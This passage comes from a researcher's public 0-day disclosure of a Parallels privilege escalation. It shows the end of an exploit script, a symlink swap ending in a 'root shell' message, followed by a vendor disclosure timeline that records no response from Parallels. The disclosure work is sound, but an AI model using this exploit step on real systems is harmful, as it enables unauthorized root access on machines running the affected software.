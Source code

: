 ```
	:
done
ln -sfn /tmp/dst /tmp/lnk

echo "[*] All done. Enjoy the root shell :P"

```



# Timeline

This time, I **don’t trust the ZDI any more**. So I decided to report this new issue to the vendor directly:

![image-20250220120836972](../res/2025-2-20-Parallels-0-day/image-20250220120836972.png)

| Date       | Action                                            |
| ---------- | ------------------------------------------------- |
| 2024-07-22 | Me: Initial report sent to security@parallels.com |
| 2024-07-23 | Parallels: Will analyze the report                |
| 2024-10-23 | Me: Ask for an update -> **No response**          |
| 2025-02-12 | Me: Ask for an update -> **No response**          |
| 2025-02-19 | Me: Ask for an update -> **No response**          |
| 2025-02-20 | Me: 0 day disclosure                              |
